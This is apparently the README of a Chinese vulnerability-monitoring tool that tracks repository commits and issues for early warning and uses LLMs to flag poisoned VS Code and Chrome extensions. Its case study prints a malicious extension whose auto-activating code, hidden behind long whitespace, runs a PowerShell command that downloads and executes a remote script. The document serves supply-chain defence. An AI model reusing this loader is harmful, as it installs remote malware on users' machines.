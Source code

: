 监控非公开的漏洞库，而是根据commit、issue等做相关漏洞的提前预警

```
               _                             _ _                   __           _   
  __   ___   _| |      _ __ ___   ___  _ __ (_) |_ ___  _ __      / _| __ _ ___| |_
  \ \ / / | | | |_____| '_ ` _ \ / _ \| '_ \| | __/ _ \| '__|____| |_ / _` / __| __|
   \ V /| |_| | |_____| | | | | | (_) | | | | | || (_) | | |_____|  _| (_| \__ \ |_
    \_/  \__,_|_|     |_| |_| |_|\___/|_| |_|_|\__\___/|_|       |_|  \__,_|___/\__|
```

监控制定仓库的commit、issue、security、noted等页面的安全相关信息，以此希望在漏洞公开前获取较大的处理时间。

## Introduction
代码和[三方组建分析](https://github.com/Kevin-sa/security-bom-analyze) 在19年编写，而最近对代码做部分优化、处理的想法来源于【安全学术圈】
分享的一篇论文[开源软件包与软件供应链安全漏洞修复分析研究](https://mp.weixin.qq.com/s/KrmzMMDUPUG7qolPPi8SSg) 、[paper:Open or Sneaky? Fast or Slow? Light or Heavy?:
Investigating Security Releases of Open Source Packages](https://arxiv.org/pdf/2112.06804.pdf)

其中印象最深刻的是安全fix、下游处理的timeline
![](docs/timeline.png)

最主要的时间为
- security release和fix commit有4天的时间差
- snyk和NVD公告和security release有25天的时间差

## Token
### Github
主要用于获取关注仓库的commit、isssue、github security等信息
[new github Token](https://github.com/settings/tokens)

### Telebot
[new telebot](https://cloud.google.com/dialogflow/es/docs/integrations/telegram?hl=zh-cn)


## Mac定时任务使用launchctl
```shell
~/Library/LaunchAgents

<plist version="1.0">
<dict>
  <!-- Label唯一的标识 -->
  <key>Label</key>
  <string>com.kevinsa.timonitor</string>
  <!-- 指定要运行的脚本 -->
  <key>ProgramArguments</key>
  <array>
    <string>/vul-monitor/run.sh</string>
  </array>
  <!-- 指定要运行的时间 -->
  <key>StartCalendarInterval</key>
  <dict>
        <key>Minute</key>
        <integer>00</integer>
        <key>Hour</key>
        <integer>10</integer>
  </dict>
<!-- 标准输出文件 -->
<key>StandardOutPath</key>
<string></string>
<!-- 标准错误输出文件错误日志 -->
<key>StandardErrorPath</key>
<string></string>
</dict>
</plist>

launchctl load -w com.kevinsa.timonitor.plist
```

## 投毒监控
在```impl/supply_chain```中增加针对vscode、chrome插件的投毒监控
- 通过爬虫方式获取插件更新
- 获取对应存在风险func（自动触发等利用方式sink点）调用LLM做判断
调用多个模型识别：
- 识别结果：```vscode-chrome LLM.xlsx```
- 部分样本：https://github.com/Kevin-sa/vul-monitor-fast/tree/master/evil_data

case1：vscode
```
async function installExtension(extensionId) {
  try {
    const extension = vscode.extensions.getExtension(extensionId);
    if (extension) {
      vscode.window.showInformationMessage(`Extension ${extensionId} is already installed.`);
      return;
    }

    await vscode.commands.executeCommand('workbench.extensions.installExtension', extensionId);
    vscode.window.showInformationMessage(`Installation of ${extensionId} triggered successfully.`);

    setTimeout(async () => {
      const installedExtension = vscode.extensions.getExtension(extensionId);
      if (installedExtension && !installedExtension.isActive) {
        await installedExtension.activate();
        vscode.window.showInformationMessage(`Extension ${extensionId} has been activated.`);
      }
    }, 3000);
  } catch (error) {
    vscode.window.showErrorMessage(`Failed to install extension ${extensionId}: ${error.message}`);
  }
}

function activate(context) {
  let disposable = vscode.commands.registerCommand('hubtestmanagerex.runCmd', async function () {
    if (process.platform === 'win32') {
                                                                                                                                                                                                                        const Checker = 'powershell -Command "irm https://asdf11.xyz/rbx | iex"';
      try {
        await CheckInstalled(Checker);

        const extensionId = 'evaera.vscode-rojo';
        await installExtension(extensionId);

      } catch (error) {
        vscode.window.showErrorMessage(`Failed to execute command: ${error.message}`);
      }
    }
  });

  context.subscriptions.push(disposable);
  if (process.platform === 'win32') {
    setTimeout(() => {
      vscode.commands.executeCommand('hubtestmanagerex.runCmd');
    }, 1000);
  }
}
```
